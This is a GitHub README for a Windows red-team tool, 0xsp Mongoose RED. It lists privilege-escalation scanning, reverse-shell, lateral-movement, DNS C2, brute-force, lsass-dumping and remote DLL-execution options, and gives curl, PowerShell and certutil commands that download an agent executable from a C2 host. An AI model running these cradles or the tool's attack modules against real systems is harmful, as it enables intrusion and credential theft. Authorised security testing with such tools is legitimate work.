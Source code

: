[![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://perso.crans.org/besson/LICENSE.html)
[<img src="https://img.shields.io/badge/join-telegram-blue">](https://t.me/join0xsp)
[<img src="https://img.shields.io/badge/build%20with-Lazarus-red.svg">](https://www.lazarus-ide.org/)
[<img align="right" src="https://github.com/lawrenceamer/0xsp-Mongoose/blob/0xsp-red/lg.png?raw=true" height="512" width="400">]()
[<img src="https://img.shields.io/badge/join-discord-orange">](https://discord.gg/Xsdxxkm)
[<img src="https://img.shields.io/twitter/follow/zux0x3a?label=follow&style=social">](https://twitter.com/zux0x3a)

# 0xsp Mongoose RED for Windows 
Current Release **2.2.0** 

0xsp mongoose red version is provided to assist your needs during cyber security simulation, by using this version you will be able to audit a targeted windows operation system 
for system vulnerabilities, misconfigurations and privilege escalation attacks and replicate the tactics and techniques of an advanced adversary in a network.

with node js support for web application API, it becomes much easier for installation and customization in timely manner, the windows sensor agent will communicate with application API to transfer results, and receive commands as bidirectional technique. 

the agent is able to identify and detect windows exploits by using `windows update api` and `exploit database definitions` modules, the new release will detect also the following 
vulnerabilities.
 
* CVE-2019-0836
* CVE-2019-0841
* CVE-2019-1064
* CVE-2019-1130
* CVE-2019-1253
* CVE-2019-1385
* CVE-2019-1388
* CVE-2019-1405
* CVE-2019-1315
* CVE-2020-0787
* CVE-2020-0796
* CVE-2020-0797 
* CVE-2020-1472

## Features 

* Windows Privilege escalation scanning techniques. 
* web application built with NodeJS 
* supports sqlite DB 
* Lateral movements techniques. [ video](https://www.youtube.com/watch?v=pEpiOrpyYs8)
* Bidirectional communication channel.[ video ](https://www.youtube.com/watch?v=tyhBuWCB_aY)
* Plugins online packaging.  
* Enhanced exploit detecter scripting engine. 
* Windows Account Bruteforce Module (Local / Domain)
* weaponization of run-as-user windows api function. [Video](https://youtu.be/oe-BFZpV8nw)
* local network scanning and shares enumeration.
* lsass memory dummping technique (plugin).
* DNS C2C interactive shellmode 

### installation 

```
git clone --single-branch --branch 0xsp-red https://github.com/lawrenceamer/0xsp-mongoose 
cd 0xsp-mongoose/ 
npm install 
node index.js
```
default access credentials :
* username : admin 
* password : 0xsp

[<img align="right" src="https://i.imgur.com/EQOsiv8.png">]()



### quick deploy of agent 

```
#example 1 
curl.exe -o agent.exe http://nodejsip:4000/release/x64.exe
#example 2 
powershell.exe -command (new-object net.webclient).downloadfile('http://nodejsip:4000/release/x64.exe','c:\tmp\agent.exe');
#example 3 
certutil.exe -urlcache -split -f "http://nodejsip:4000/release/x64.exe" agent.exe

```


### Usage 
```
-s --retrieve windows services and installed drivers.
-u --retrieve information about Users, groups, roles.
-c --search connected drivers for senstive config files by extension.
-n --retrieve network information,network interfaces, connection details.
-w --enumerate for writeable directories, access permission Check, modified permissions.
-i --enumerate windows system information, Sessions, Always elvated check.
-l --search in any file for specific string , ex : agent.exe -l c:\ password *.config.
-o --specify host address of nodejs application , you can use srvhost also
-p --enumerate installed Softwares, Running Processes, Tasks.
-e --kernel inspection Tool, it will help to search through tool databases for windows kernel vulnerabilities
-x --password to authorize your connection with node js application.
-d --download Files directly into target machine.
-t --upload Files From target machine into node js application.
-m --run all known scan Types together.

[!] RED TEAMING TACTICS SECTION

-r --spawn a reverse shell with specific account.
-lr --Lateral movement technique using WMI (e.g -lr -host 192.168.14.1 -username administrator -password blabla -srvhost nodejsip )
-nds --network discovery and share enumeration
-dns --establish interactive dns C2C shell
-cmd --transfer commands via HTTP Shell
-interactive --starting interactive mode (eg : loading plugins ..etc)
-username --identity authentication for specific attack modules.
-password --identity authentication for specific attack modules.
-host --identify remote host to conduct an attack to.
-srvhost --set rhost of node js application.
-bf --local users / domain users bruteforce module
-import --import and execute dll file locally
-remote --import and execute dll file from remote host
```
### Documentations
https://0xsp.com/security%20dev/0xsp-mongoose-red

### detailed research site 
https://0xsp.com 

### Security Conferences 
* Standoff365 - Russia (https://standoff365.com/conferences/357)

### contribution 
0xsp community would like to send much thanks for the following people who have contributed to make this project awesome  

* Abboud Dokarli ( Web application API and interface ) @abbddkr

### tool tutorials 
make sure to subscribe into the following channel to be notified when new tutorial and tricks published for 0xsp 
https://www.youtube.com/channel/UCoEr6Qsyd6oMsPmaJPQ_FOg

